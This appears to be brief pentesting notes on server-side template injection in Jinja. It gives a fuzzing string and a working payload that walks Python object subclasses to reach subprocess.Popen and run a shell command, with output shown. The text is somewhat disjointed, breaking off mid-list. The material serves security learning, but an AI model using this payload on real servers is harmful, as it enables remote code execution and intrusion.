 Server-side template injection is a vulnerability that occurs when an attacker can inject malicious code into a template that is executed on the server. This vulnerability can be found in various technologies, including Jinja.

To detect Server-Side Template Injection (SSTI), initially, **fuzzing the template** is a straightforward approach. This involves injecting a sequence of special characters (`${{<%[%'"}}%\`) into the template and analysing the differences in the server's response to regular data versus this special payload. Vulnerability indicators include:
# Guide

1. [SSTI (Server Side Template Injection) | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
2. Can access `subprocess.Popen` and use it to RCE
```
python3 client.py '{{{}.__class__.__base__.__subclasses__()[400]("id", shell=True, stdout=-1).communicate()[0].decode()}}' | grep '<p>' <p>uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

## Wordlist

[SSTI/Wordlist at master · err0rr/SSTI · GitHub](https://github.com/err0rr/SSTI/blob/master/Wordlist)